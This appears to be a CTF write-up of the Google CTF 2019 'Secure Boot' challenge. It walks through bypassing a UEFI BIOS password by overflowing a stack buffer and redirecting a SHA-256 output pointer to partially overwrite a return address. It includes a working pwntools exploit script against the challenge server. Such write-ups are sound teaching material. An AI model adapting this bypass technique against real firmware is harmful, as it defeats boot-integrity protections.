 ```yaml
---
layout: post
category: Pwn
title: Google CTF Quals 2019 - Secure Boot
tags: 
    - kowu
---
```


# Challenge overwiew

A x86\_64 qemu challenge. However, this time it is about getting it to boot up...

```
.
├── contents
│   ├── boot.nsh
│   ├── bzImage
│   ├── rootfs.cpio.gz
│   └── startup.nsh
├── OVMF.fd
└── run.py
```

Running the challenge and doing nothing gives us the following output:

```
UEFI Interactive Shell v2.2
EDK II
UEFI v2.70 (EDK II, 0x00010000)
Mapping table
      FS0: Alias(s):HD1a1:;BLK3:
          PciRoot(0x0)/Pci(0x1,0x1)/Ata(0x0)/HD(1,MBR,0xBE1AFDFA,0x3F,0xFBFC1)
     BLK0: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x0)/Floppy(0x0)
     BLK1: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x0)/Floppy(0x1)
     BLK2: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x1)/Ata(0x0)
     BLK4: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x1)/Ata(0x0)

If Secure Boot is enabled it will verify kernel's integrity and
return 'Security Violation' in case of inconsistency.
Booting...
Script Error Status: Security Violation (line number 5)
```

And execution stops. However, if we enter the "BIOS" by hitting `del` or `F12` we are greeted with the following:

```
BdsDxe: loading Boot0000 "UiApp" from Fv(7CB8BDC9-F8EB-4F34-AAEA-3EE4AF6516A1)/FvFile(462CAA21-7614-4503-836E-8AB6F4662331)
BdsDxe: starting Boot0000 "UiApp" from Fv(7CB8BDC9-F8EB-4F34-AAEA-3EE4AF6516A1)/FvFile(462CAA21-7614-4503-836E-8AB6F4662331)
****************************
*                          *
*   Welcome to the BIOS!   *
*                          *
****************************

Password?
```

This is where the challenge starts.

# Pre-Reversing

First of all, I modified the run.py script and added the `-s` option to qemu (-s ia a shorthand to wait for gdb connections on port 1234). I also removed the `console=/dev/null` as I want to use the console later on.

Now we can run the challenge until we get to the password input prompt. Once reached, we attach radare2 to it with `r2 -D gdb gdb://localhost:1234`. Radare will stop the execution. As the program is expecting input from us, we are probably currently in some kind of input routine. A backtrace should lead us to the calling functions.

Printing a backtrace reveals the following:

```
:> dbt
0  0x7b30a41          sp: 0x0                 0    [??]  rip r13+8403169
1  0x7ec22c9          sp: 0x7ec16c8           32   [??]  rsp+3105 
2  0x7ec5f50          sp: 0x7ec1728           96   [??]  rsp+18600 
3  0x7ed2fe7          sp: 0x7ec1758           48   [??]  rsp+71999 
4  0x7ed30c9          sp: 0x7ec1778           32   [??]  rsp+72225 
5  0x67daf5e          sp: 0x7ec17c8           80   [??]  cr3+108896862 
6  0x7b90612          sp: 0x7ec1828           96   [??]  rip+392145 
7  0x67d4d34          sp: 0x7ec18b8           144  [??]  cr3+108871732 
8  0x7ec5f50          sp: 0x7ec18f8           64   [??]  rsp+18600 
9  0x7ec8317          sp: 0x7ec1958           96   [??]  rsp+27759 
10  0x7a7e577          sp: 0x7ec1a28           208  [??]  r13+7672855 
```

I now went through all the call frames and looked for something interesting (in search for some main loop).
At frame 5 I noticed the use of `0xdeadbeefdeadbeef` (suspicious). Frame 7 checks a functions result and, depending on the output, calls another function with the string "Blocked". Therefore I assumed `0x67dae50` to be our password check routine we are interested in.

```
0x067d4d2f      e81c610000     call 0x67dae50              ;[1]
0x067d4d34      84c0           test al, al
0x067d4d36      7511           jne 0x67d4d49
0x067d4d38      488d0d1fa100.  lea rcx, [0x067dee5e]       ; u"\nBlocked!\n"
0x067d4d3f      e8b976ffff     call 0x67cc3fd
```

To confirm this, I placed a breakpoint on the `test al, al` instruction (`db 0x67d4d34`) and, once the breakpoint was hit, manually modified the return value from zero to one (`dr rax=1`).
Continuing execution (`dc`) results in a BIOS menu where I could turn off secure boot and initiate a reboot with the new BIOS settings. As a result, the system would start up normally.

# Reversing

As I identified the password input routine, it's time for reversing (using IDA). First, I dumped the whole guest memory via the qemu monitor (press `ctrl+a` then `c` and dump using `dump-guest-memory`).
We get some decompiled and cleaned up pseudocode like this (left some details away for simplicity):

```c
int checkpasswd() {
    uint64_t *hashptr;
    char keybuffer[128];

    hashptr = malloc(32);
    for (int tries=0; tries <= 2; tries++) {
        int i=0;
        for(; i<140; i++) {
            char c = getc();
            if (c == '\r')
                break;
            keybuffer[i] = c;
            print("*");
        }
        keybuffer[i] = '\0';
        /* assumed because of magic constants */
        sha256(32, i, keybuffer, hashptr); 
        if (hashptr[0x00] == 0xdeadbeefdeadbeef &&
            hashptr[0x08] == 0xdeadbeefdeadbeef &&
            hashptr[0x10] == 0xdeadbeefdeadbeef &&
            hashptr[0x18] == 0xdeadbeefdeadbeef)
            return 1;
        print("wrong!");
    }
    return 0;
}
```

So a classic stack based overflow (128B space vs. 141B usage). We overflow into the hashptr and therefore control where the 32 Bytes of resulting hash are written to. We can use this to bypass the login password check by partially overwriting our own return address.
So instead of returning to `0x67d4d34` we want to return to `0x67d4d49`, i.e. we need to change the first byte from `0x34` to `0x49`. The return address is located at `0x7ec18b8`, therefore we need to modify the hashptr to point to `0x7ec18b8 - 0x20 + 1 = 0x7ec1899`.
The payload for this looks like this:

```python
pl = "A" * 136 + struct.pack('<I', 0x07ec1899)
```

To overwrite the first byte of the return address with controlled data, one can bruteforce possible sha256 hashes.
During the ctf due to lazyness I just manually incremented the first char, as the possibility is > 1/256 to hit a valid bypass :)
Dirty, but I got a working payload quite fast this way.

```python
pl = "E" + "A" * 135 + struct.pack('<I', 0x07ec1899)
```

# Launching

We now have everything together to launch the exploit against the remote target.
The del keycode (0x7f) needs to be escaped (0x1b) and we need to wait some time before we can send it (therefore the recvn(1)).

```python
from pwn import *

r = remote('secureboot.ctfcompetition.com', 1337)

if __name__ == '__main__':
    r.recvn(1)
    r.send('\x1b\x7f')
    r.recvuntil('Password?')
    pl = "E" + "A" * 135 + struct.pack('<I', 0x07ec1899)
    r.send(pl + '\x0d')
    r.interactive()
```
launching with socat:
```
socat /dev/stdin,rawer "SYSTEM:python2 secureboot.py"
```
This will drop us into the BIOS options. There we need to deselect `Device Manager` -> `Secure Boot Configuration` -> `Attempt Secure Boot`. A reboot will start the machine and allows us to cat the flag.
